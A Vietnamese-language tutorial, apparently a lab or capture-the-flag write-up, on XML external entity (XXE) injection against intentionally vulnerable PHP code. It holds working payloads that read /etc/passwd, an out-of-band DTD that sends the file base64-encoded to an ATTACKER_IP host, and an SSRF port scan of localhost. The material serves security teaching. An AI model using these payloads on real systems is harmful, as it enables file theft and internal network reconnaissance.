










# **XXE Injection**
## **1. Exploring XML**
**XML** (*Extensible Markup Language*) là ngôn ngữ đánh dấu tương tự như HTML, nó dùng dùng để chuyển, lưu trữ data, giúp con người có thể đọc được và máy tính có thể phân tích được

Cấu trúc của XML: các phần tử của XML được biểu diễn bằng các `tag` được bao quanh bởi cặp dấu `<>`, `tag` cũng thường đi theo cặp

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user id="1">
   <name>John</name>
   <age>30</age>
   <address>
      <street>123 Main St</street>
      <city>Anytown</city>
   </address>
</user>
```

### **XSLT**
**XSLT** (*Extensible Stylesheet Language Transformations*) là một ngôn ngữ dùng để biến đổi (transform) dữ liệu XML từ dạng này sang dạng khác

### **DTD**
**DTDs** (*Document Type Definitions*) định nghĩa cấu trúc và hạn chế đối với XML, nó cho phép các phần tử, thuộc tính, và quan hệ giữa chúng; nó có thể nằm trong XML hoặc 1 file bên ngoài

Chức năng và cách sử dụng:
- Validation:  xác thực cấu trúc của XML để đảm bảo nó đáp ứng các tiêu chí cụ thể trước khi xử lý, điều này rất quan trọng trong các môi trường mà tính toàn vẹn dữ liệu là chìa khóa
- Entity Declaration: xác định các **entity** có thể được sử dụng trong toàn bộ tài liệu XML, bao gồm các thực thể bên ngoài là chìa khóa trong các cuộc tấn công XXE

DTD sử dụng `<!DOCTYPE` để định nghĩa 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE config [
<!ELEMENT config (database)>
<!ELEMENT database (username, password)>
<!ELEMENT username (#PCDATA)>
<!ELEMENT password (#PCDATA)>
]>
<config>
<!-- configuration data -->
</config>
```

### **DTDs and XXE**
DTDs đóng vai trò quan trọng trong XXE Injection bởi vì nó có thể định nghĩa các **external entity** - là những external file hoặc URL có thể dẫn đến dữ liệu độc hại và code injection

Có 5 kiểu của entity:
- **Internal Entities**: các biến được sử dụng trong tài liệu XML để xác định và thay thế nội dung có thể được lặp lại nhiều lần. Chúng được xác định trong DTD (Định nghĩa loại tài liệu) và có thể đơn giản hóa việc quản lý thông tin lặp lại

```xml
<!DOCTYPE note [
<!ENTITY inf "This is a test.">
]>
<note>
        <info>&inf;</info>
</note>
```

- **External Entities**: tương tự như **Internal Entity** nhưng nó được định nghĩa bằng các file từ bên ngoài hoặc URL, đây chính là nguyên nhân dẫn đến **XXE**

```xml
<!DOCTYPE note [
<!ENTITY ext SYSTEM "http://example.com/external.dtd">
]>
<note>
        <info>&ext;</info>
</note>
```

- **Parameter Entities**: được định nghĩa và sử dụng ngay bên trong DTD

```xml
<!DOCTYPE note [
<!ENTITY % common "CDATA">
<!ELEMENT name (%common;)>
]>
<note>
        <name>John Doe</name>
</note>
```

- **General Entities**: gần giống như một biến, thường được định nghĩa trong DTD để chứa dữ liệu và được gọi ra để lấy nội dung bên trong ở phần body

```xml
<!DOCTYPE note [
<!ENTITY author "John Doe">
]>
<note>
        <writer>&author;</writer>
</note>
```

- **Character Entities**: là những kí tự biểu diễn cho những kí tự đặc biệt trùng với cấu trúc của XML, từ đó tránh được việc làm vỡ cấu trúc của XML: `&lt;` = `<`, `&gt`; = `>`, `&amp;` = `=` 

```xml
<note>
        <text>Use &lt; to represent a less-than symbol.</text>
</note>
```



## **2. XML Parsing Mechamism**
XML Parsing là một quá trình đọc file XML, dữ liệu của nó được máy tính lấy và xử lý, chuyển đổi thành dữ liệu có cấu trúc như DOM tree

Một số XML Parser:
- **DOM (Document Object Model) Parser**
- **SAX (Simple API for XML) Parser**
- **StAX (Streaming API for XML) Parser**
- **XPath Parser**

## **3. Exploiting XXE: In bands**

Web có một chức năng xử lý dữ liệu người dùng nhập vào với logic:

```php
libxml_disable_entity_loader(false);

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $xmlData = file_get_contents('php://input');

    $doc = new DOMDocument();
    $doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD); 

    $expandedContent = $doc->getElementsByTagName('name')[0]->textContent;

    echo "Thank you, " .$expandedContent . "! Your message has been received.";
}
```



Web cho ta submit 3 phần là **Name**, **Email**, **Message**, tron đó ta thấy được phần Name được thông báo ra màn hình khi ta gửi đi



Ta quan sát request trong BurpSuite
  


Ta thấy dữ liệu được gửi đi dạng XML\
Ta thử payload 

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```

Ta khai báo một **DOCTYPE declaration** `foo` với thẻ `<!DOCTYPE`\
Sau đó khai báo một external entity là `xxe` với giá trị là đường dẫn của file `/etc/passwd`\
Ta biết được phần **Name** được hiển thị ra ngoài nên ta sẽ điền giá trị của `&xxe;` vào tag `name`



Kết quả là ta nhận được nội dung của file `/etc/passwd` trong thông báo

## **4. Exploiting XXE: Out-of-bands** 
Với kĩ thuật này, ta áp dụng để lấy dữ liệu ra bên ngoài bằng một kênh mà ta kiểm soát, sau đó để web gửi dữ liệu lấy được về kênh đó

Web có chức năng upload lên một file, sau đó file đó được lưu và đổi trên trên hệ thống và cho phép người dùng truy cập thông qua link



Web có logic chức năng như sau:

```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```



Ta gửi một file và quan sát request bằng Burp\
Ta sử dụng payload:

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```

để thực hiện kết nối đến hệ thống ta kiểm soát




Từ đó ta có thể xác nhận là có kết nối tới server của ta\
Tiếp theo ta thực hiện tạo 1 file DTD trên hệ thống của ta để web có thể lấy được và thực thi

```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

- `%cmd`: lấy nội dung của file `etc/passwd` rồi chuyển thành dạng **base64**
- `exfil`: tạo một request đến server của ta với tham số data chứa giá trị của biến `%cmd`
- `%oobxxe`: gọi DTD internal

Sau đó ta sẽ gửi payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```





Kết quả là ta nhận được chuỗi base64 của file `/etc/passwd` của web 

## **5. SSRF + XXE**
Ta có thể kết hợp SSRF cùng với XXE để thực hiện scan mạng, khi đó thay vì gửi request ra ngoài ta sẽ gửi đến **localhost**

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```

Ta sẽ thực hiện dò từng port để xem có port hay dịch vụ nào được mở ra ngoài không\
Thực hiện dò và ta nhận được có cổng `81` có dịch vụ và chứa flag


